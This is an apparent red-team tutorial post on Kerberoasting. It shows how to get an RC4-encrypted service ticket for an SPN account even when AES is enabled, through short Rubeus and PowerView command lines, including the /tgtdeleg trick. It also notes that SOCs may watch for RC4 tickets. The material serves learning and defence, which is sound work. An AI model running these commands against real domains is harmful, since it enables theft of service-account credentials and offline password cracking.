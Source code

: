 ```yaml
---
layout: post
title: "2024-06-18-kerberoasting requesting rc4 encrypted tgs when aes is enabled"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled/
---
```


# Kerberoasting: Requesting RC4 Encrypted TGS when AES is Enabled

It is possible to kerberoast a user account with SPN even if the account supports Kerberos AES encryption by requesting an RC4 ecnrypted (instead of AES) TGS which easier to crack.

## Execution

First off, let's confirm we have at least one user with an SPN set:

{% code title="attacker@victim" %}
```
Get-NetUser -SPN sandy
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-37-30.png>)

Since the user account does not support Kerberos AES ecnryption by default, when requesting a TGS ticket for kerberoasting with rubeus, we will get an RC4 encrypted ticket:

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-39-53.png>)

If the user is now set to support AES encryption:

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-40-51.png>)

By default, returned tickets will be encrypted with the highest possible encryption algorithm, which is AES:

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-05-06 15-58-37.png>)

## Requesting RC4 Encrypted Ticket

As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket (if RC4 is not disabled in the environment, which does not seem to be common yet):

{% code title="attacker@victim" %}
```
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```
{% endcode %}

Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 (encryption type 0x17/23) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:

![](<../../.gitbook/assets/Screenshot from 2019-05-06 16-03-06.png>)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/" %}
@spotheplanet
